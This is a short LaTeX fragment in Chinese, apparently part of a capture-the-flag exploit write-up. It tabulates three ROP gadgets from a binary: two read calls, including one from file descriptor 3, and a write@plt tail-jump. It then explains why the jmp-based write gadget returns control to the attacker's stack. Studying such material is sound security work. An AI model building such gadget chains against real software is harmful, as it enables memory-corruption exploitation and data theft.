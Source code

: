 \documentclass[10pt,a4paper]{article}
\newcounter{none}
\begin{document}
我挑的三個片段（都在函式中段，位址剛好可以用）：

{\def\LTcaptype{none} %
\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{}
  >{\raggedright\arraybackslash}p{}
  >{\raggedright\arraybackslash}p{}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
位址
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
內容
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
效果
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{0x401f07} &
\texttt{xor\ \allowbreak{}edi,\allowbreak{}edi;\ \allowbreak{}movzx\ \allowbreak{}edx,\allowbreak{}bl;\ \allowbreak{}mov\ \allowbreak{}rsi,\allowbreak{}rsp;\ \allowbreak{}call\ \allowbreak{}read} &
\texttt{read(0,\allowbreak{}\ \allowbreak{}rsp,\allowbreak{}\ \allowbreak{}bl)} \\
\texttt{0x401fda} &
\texttt{mov\ \allowbreak{}edx,\allowbreak{}0x100;\ \allowbreak{}mov\ \allowbreak{}rsi,\allowbreak{}rbx;\ \allowbreak{}mov\ \allowbreak{}edi,\allowbreak{}3;\ \allowbreak{}call\ \allowbreak{}read} &
\texttt{read(3,\allowbreak{}\ \allowbreak{}rbx,\allowbreak{}\ \allowbreak{}0x100)} \\
\texttt{0x401c32} & \texttt{mov\ \allowbreak{}rdx,\allowbreak{}rax;\ \allowbreak{}jmp\ \allowbreak{}write@plt} &
\texttt{write(rdi,\allowbreak{}\ \allowbreak{}rsi,\allowbreak{}\ \allowbreak{}rax)} \\
\end{longtable}
}

\texttt{0x401c32} 特別妙：它在 \texttt{0x401c20}（一個
\texttt{write\_\allowbreak{}string} 函式）裡面， 前面剛好是 \texttt{pop\ \allowbreak{}rbx}、後面是
\texttt{mov\ \allowbreak{}rdx,\allowbreak{}rax;\ \allowbreak{}jmp\ \allowbreak{}write@plt}。 因為 \texttt{jmp}（不是
\texttt{call}）跳到 \texttt{write@plt}， 所以 \texttt{write} 返回時會
\texttt{ret} 到\textbf{我們堆疊上的下一個 qword} ------ 完美的 gadget。✓
\end{document}
